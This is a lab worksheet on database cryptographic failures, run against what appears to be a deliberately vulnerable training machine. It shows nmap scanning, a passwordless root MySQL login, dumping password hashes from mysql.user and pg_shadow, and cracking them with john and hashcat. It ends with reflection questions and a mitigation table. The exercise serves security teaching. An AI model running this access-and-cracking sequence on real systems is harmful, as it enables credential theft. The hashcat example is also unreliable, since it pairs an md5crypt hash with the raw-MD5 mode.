

### 🧪 ** 1: Service Enumeration & Initial Access**

**🎯 Goal:** Find and connect to the database on the target machine.

#### 🔧 Tools:
- `nmap`
- `telnet` or `nc`
- `mysql` / `psql` (based on DB type)

#### ✅ Steps:
```bash
nmap -sV -p- TARGET_IP
```
- Look for ports like `3306` (MySQL), `5432` (PostgreSQL), etc.


#### 🔗 Initial Access Attempt
#### 🧪 Attempt 1: Standard MySQL connection with password
```bash
mysql -h 192.168.153.140 -u root -p
```
**Result:**
```
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```


#### 🧪 Attempt 2: Retry with different flags
```bash
mysql -h 192.168.153.140 -P 3306 -u root --ssl-mode=DISABLED
```
**Result:**
```
mysql: unknown variable 'ssl-mode=DISABLED'
```


#### 🧪 Attempt 3: Successfully connected by skipping SSL
```bash
mysql -h 192.168.153.140 -P 3306 -u root --password= --skip-ssl
```

✅ **Success!** Connected to the MySQL service:
```
Welcome to the MariaDB monitor...
Server version: 5.0.51a-3ubuntu5 (Ubuntu)
```


### 🧠 Explanation:

- The **MySQL client tried to use TLS/SSL by default**, but the **server did not support it** or was using an **older version (MySQL 5.0.51a)** incompatible with the client's TLS version.
- Using the `--skip-ssl` flag **disabled SSL negotiation**, which allowed the connection to succeed.
- The **client `ssl-mode` option** is not recognized by this older version of `mysql` on Kali. Instead, `--skip-ssl` worked.

---

### ✅ Post-Connection Verification
```sql
SHOW DATABASES;
```

**Result:**
```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| dvwa               |
| metasploit         |
| mysql              |
| owasp10            |
| tikiwiki           |
| tikiwiki195        |
+--------------------+
```

✅ Successfully listed databases — confirmed access.


---

### 🔹 **2. Enumeration of Users and Authentication Weaknesses**

**Goal:** Find DB users and check if any have poor credentials or no password.

#### ✅ Steps:
Inside MySQL or PostgreSQL:
```sql
SELECT user, password FROM mysql.user;  -- MySQL
SELECT usename, passwd FROM pg_shadow;  -- PostgreSQL
```



#### 📌 Reflection Question:
> Is accessing a DB with no password a cryptographic failure?

**Answer Example:**
Yes, it is. It shows a failure to enforce secure authentication, and violates the principle of cryptographic confidentiality and identity verification.

---

### 🔹 **3. Password Hash Discovery and Identification**

**Goal:** Find hashes and identify their type.

#### ✅ Steps:
Search tables like `users`, `accounts`, or `credentials`.

```sql
SELECT username, password FROM users;
```

Use tools to identify hash type:
```bash
hashid hash_here
hash-identifier
```

#### 📌 Question:
> What cryptographic weaknesses exist in this method?

**Example Answer:**
If hashes use MD5 or SHA1, they're vulnerable due to:
- Fast computation (easy to brute-force)
- Known collisions
- Lack of salting

---

### 🔹 **4. Offline Hash Cracking**

**Goal:** Crack discovered hashes using `john` or `hashcat`.

#### ✅ Example with John:
```bash
echo 'admin:$1$abc$1234567890abcdef' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Or with Hashcat:
```bash
hashcat -m 0 hash.txt rockyou.txt  # -m 0 = MD5
```

#### 🔍 Analyze:
- Which passwords cracked?
- Were they weak/simple?
- Any reused passwords?

---

### 🔹 **5. Cryptographic Analysis and Mitigation**

Summarize key issues found:
| Category                | Problem                          | Suggested Fix                        |
|------------------------|----------------------------------|--------------------------------------|
| Auth Flaw              | No/weak password enforcement     | Enforce strong passwords, MFA        |
| Weak Hashing           | Use of MD5                       | Use bcrypt, scrypt, Argon2           |
| Data in Transit        | Credentials in plaintext         | Enforce TLS/SSL                      |

#### Optional Wireshark Check:
```bash
wireshark &
# Apply filter: mysql || postgres || tcp.port == DB_PORT
```